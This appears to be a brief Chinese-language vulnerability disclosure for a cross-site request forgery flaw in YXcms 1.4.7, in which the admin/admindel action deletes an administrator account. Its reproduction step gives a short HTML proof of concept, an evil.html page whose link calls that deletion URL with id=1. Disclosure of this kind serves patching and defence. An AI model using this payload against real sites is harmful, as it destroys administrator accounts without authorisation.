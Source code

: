 ### 1.漏洞简介 ###
YXcms 1.4.7版本中的protected/apps/admin/controller/adminController.php文件存在跨站请求伪造漏洞。远程攻击者可借助index.php?r=admin/admin/admindel利用该漏洞删除管理员账户。
###2.影响版本 ###
YXcms 1.4.7
###3. 复现过程 ###
管理员点击链接

    http://192.168.232.133/evil.html


evil.html

    <html> 
    <a href="http://127.0.0.1/yxcms1.4.7/index.php?r=admin/admin/admindel&id=1">test</a>
    </html>
    